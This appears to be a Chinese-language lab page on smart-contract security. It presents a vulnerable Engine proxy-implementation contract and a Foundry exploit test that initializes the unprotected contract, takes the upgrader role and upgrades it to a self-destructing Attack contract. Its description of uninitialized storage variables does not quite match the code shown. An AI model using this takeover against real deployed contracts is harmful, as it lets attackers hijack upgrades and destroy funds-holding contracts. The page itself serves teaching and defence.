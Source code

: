 # 未初始化的状态变量  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  

**名称：** 未初始化的变量漏洞  

**描述：**   
未初始化的本地存储变量可能包含合约中其他存储变量的值；  
这可能导致意外的漏洞，或者被有意地利用。  


**参考：**   
https://blog.dixitaditya.com/ethernaut-level-25-motorbike  


**合约：**  
```
contract Engine is Initializable {
    //“eip1967.proxy.implementation”的keccak-256哈希值减1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    //将代理的实现升级为 `newImplementation`
    // 随后执行函数调用
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```  

**如何测试：**  
forge test --contracts src/test/Uninitialized_variables.sol -vvvv  
```
// 用于测试未初始化的合约的漏洞。
function testUninitialized() public {
    // 创建了一个新的Engine和Motorbike合约实例
    // Motorbike 合约的构造函数接受 EngineContract 的地址作为参数。
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // 创建Attack合约的实例
    AttackContract = new Attack();

    // 打印EngineContract的upgrader。由于EngineContract 尚未初始化，upgrader可能是零地址
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // 调用EngineContract的‘initialize()’函数
    // 由于EngineContract没有初始化，调用此函数人将成为“upgrader”
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // 打印EngineContract的upgrader。现在，它将是调用“initialize()”的地址
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // 将代理（EngineContract）的实现升级为恶意合约（AttackContract）并调用‘attack()’
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // 打印“攻击完成”
    console.log("Exploit completed");

    //由于EngineContract被‘attack()’破坏，因此下一次调用将失败。
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
``` 
**红框：** 通过初始化改变逻辑合约  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F75026e7d-93b6-4bd0-a860-aa12ac7f73ba%2FUntitled.png?table=block&id=111b15dd-4e6d-4a9d-85fc-b4a6a1397d0b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
